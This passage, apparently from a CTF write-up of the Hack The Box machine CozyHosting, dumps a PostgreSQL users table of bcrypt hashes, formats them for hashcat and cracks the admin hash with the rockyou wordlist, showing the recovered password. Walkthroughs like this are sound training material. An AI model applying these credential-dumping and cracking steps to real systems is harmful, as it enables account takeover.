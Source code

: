 ```bash
cozyhosting=# select * from users;
```

```bash
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```


### Crack the hashes from users table

It's `bcrypt`

```bash
┌──(bravosec㉿fsociety)-[~/htb/CozyHosting/loot]
└─$ nth -t '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
...
Most Likely
bcrypt, HC: 3200 JtR: bcrypt
Blowfish(OpenBSD), HC: 3200 JtR: bcrypt Summary: Can be used in Linux Shadow Files.
Woltlab Burning Board 4.x,
```

Select them as a format for hashcat

```bash
cozyhosting=# select name||':'||password from users;
```

```bash
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/CozyHosting]
└─$ mkdir loot && cd loot

┌──(bravosec㉿fsociety)-[~/htb/CozyHosting/loot]
└─$ vi users.hash

┌──(bravosec㉿fsociety)-[~/htb/CozyHosting/loot]
└─$ cp users.hash /media/sf_kali-share
```

```bash
hashcat D:\kali-share\users.hash "D:\kali-share\rockyou.txt" --user -m 3200
```

Result : 

```bash
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

